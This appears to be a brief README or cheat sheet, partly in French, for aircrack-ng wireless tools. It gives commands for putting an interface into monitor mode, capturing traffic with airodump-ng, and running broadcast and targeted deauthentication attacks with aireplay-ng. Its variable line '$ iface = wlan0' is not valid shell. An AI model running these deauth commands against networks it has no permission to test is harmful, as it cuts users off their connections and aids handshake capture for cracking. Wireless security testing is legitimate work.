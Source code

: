 # aicrack-ng

Enabling monitor mode

Before capturing any traffic, it is necessary to enable the monitoring mode on the 802.11 interface wlan0.

This is typically done using iwconfig

```sh
$ iface = wlan0
$ sudo ifconfig $iface down
$ sudo iwconfig $iface mode monitor
$ sudo ifconfig $iface up
```

Where wlan0 is the name of your wireless interface supporting the monitor mode. From this point,
the interface wlan0 is in monitor mode and ready to capture and inject traffic.
If you are encountering errors or a strange behavior with your monitoring interface, you can try
"unblocking" the interface with the following commands:

```sh
$ nmcli nm wifi off
$ sudo rfkill unblock all
```

## capture dans un fichier :

```sh
$ airodump-ng --essid <nom AP> -c <channel> -w capture-file wlan1
$ airodump-ng --bssid <mac AP> -c <channel> -w capture-file wlan1
```

## deauth (broadcast):

```sh
sudo aireplay-ng --deauth 30 -a <mac AP> wlan1
```

## deauth ciblé:

```sh
sudo aireplay-ng --deauth 30 -a <mac AP> -c <mac Client> wlan1
```